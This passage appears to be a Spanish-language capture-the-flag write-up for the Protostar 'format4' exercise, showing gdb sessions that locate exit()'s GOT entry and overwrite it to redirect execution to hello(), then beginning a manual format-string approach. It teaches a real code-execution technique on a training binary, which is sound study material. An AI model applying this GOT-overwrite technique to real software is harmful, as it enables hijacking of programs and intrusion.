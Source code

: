 
## Expotación en gdb: 

```console
[user@protostar]-[/opt/protostar/bin]:$ gdb ./format4 
(gdb) set disassembly-flavor intel
(gdb) disas main
Instrucciones de main entre ellas, saltar a vuln()
0x0804851a <main+6>:	call   0x80484d2 <vuln>
(gdb) disas vuln
...
0x0804850f <vuln+61>:	call   0x80483ec <exit@plt> -> Entrada en la tabla plt de exit()
(gdb) b *0x0804850f 
(gdb) r
Starting program: /opt/protostar/bin/format4 
AAAA
AAAA
Breakpoint 1, 0x0804850f in vuln () at format4/format4.c:22
(gdb) x/i 0x80483ec       -> Nos interesa ver la primera instruccion de plt (la que tiene relacion con la GOT, no las del ld.so)
0x80483ec <exit@plt>:	jmp    DWORD PTR ds:0x8049724 -> Puntero a la tabla GOT (llama a ld.so o tiene guardada la direccion de la función)
(gdb) x 0x8049724
0x8049724 <_GLOBAL_OFFSET_TABLE_+36>:	repnz add DWORD PTR [eax+ecx*1],0x0 -> Instruccion original.
(gdb) set {int}0x8049724=0x080484b4 -> en esta memoria que es donde se mete la direccion de la funcion a jeecutar, metemos la de hello.
(gdb) c
Continuing.
code execution redirected! you win
Program exited with code 01.
```
## Explotación manual:

Vamos a explotarla de una manera muy similar a format3, pero en vez de sobreescribir en la direccion de una varaible (puntero de varaible), hay que hacerlo con la de una funcion (puntero de función)

```console
[user@protostar]-[/opt/protostar/bin]:$ gdb ./format4
(gdb) set disassembly-flavor intel
(gdb) disas vuln
...
0x08048503 <vuln+49>:	call   0x80483cc <printf@plt>
0x08048508 <vuln+54>:	mov    DWORD PTR [esp],0x1
0x0804850f <vuln+61>:	call   0x80483ec <exit@plt>
(gdb) break * 0x08048503 -> Antes de que modifique el GOT por meter los comandos de la pila 
(gdb) run
(gdb) x/i 0x80483ec
0x80483ec <exit@plt>:	jmp    DWORD PTR ds:0x8049724  
```
0x8049724 es la dirección donde la función ld.so iría a escribir dirección de exit() (por tanto estamos ante un trozo de la tabla GOT)
El objetivo sería que en vez de que escriba el ld.so escribamos nosotros (y al ya no estar ya vacía no lo llame)
> **TROZO DE TABLA GOT "0x8049724"**: \[modo normal]->  nada -> ld.so -> dir_exit()  .......  \[exploit]-> dir_hello()
